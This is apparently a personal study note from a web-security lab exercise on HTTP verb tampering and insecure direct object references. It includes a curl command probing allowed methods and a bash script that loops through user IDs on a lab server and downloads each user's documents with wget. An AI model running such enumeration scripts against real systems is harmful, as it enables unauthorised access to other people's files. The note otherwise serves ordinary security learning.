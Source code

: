 # <span style=color:#44D62C>HTTP Verb Tampering</span>
```bash
curl -i -X OPTIONS http://SERVER_IP:PORT/
```
* HTTP request method
    * POST,OPTIONS,HEAD,GET
* Command Injection + HTTP Verb Tampering

![image](https://hackmd.io/_uploads/S1bxv4vX0.png)

![image](https://hackmd.io/_uploads/B1DevNDQC.png)

* Insecure Configuration
* <span style=color:red>RED team hints: Try again and agin to test secure</span>
---
# <span style=color:#44D62C>IDOR</span>
## <span style=color:#53565A>eunm</span>
![image](https://hackmd.io/_uploads/HJetvvw7C.png)

* learn how to config curl options
    * -s: --silent
    * -d: --data
    * curl -s -X POST "http://83.136.253.153:51577/documents.php" -d "uid=1" | grep -oP "/documents.*?\.[a-z]{3}"
        * i.e., /documents.<u>php/report_20240520</u><span style=color:red>.txt</span>
        * i.e., /documents.<u>php/flag_123456</u><span style=color:red>.txt</span>
```bash
#!/bin/bash

url="http://$1"

for i in {1..20}; do
        for link in $(curl -s -X POST "$url/documents.php" -d "uid=$i" | grep -oP "/documents.*?\.[a-z]{3}");
        do
                wget -q $url$link
        done
done
```
* bash _script.sh STMIP:STMPO
    * 使用傳遞的參數(小技巧, 也可以直接在腳本$1裡寫位置)
* bash _script.sh 83.136.253.153:51577

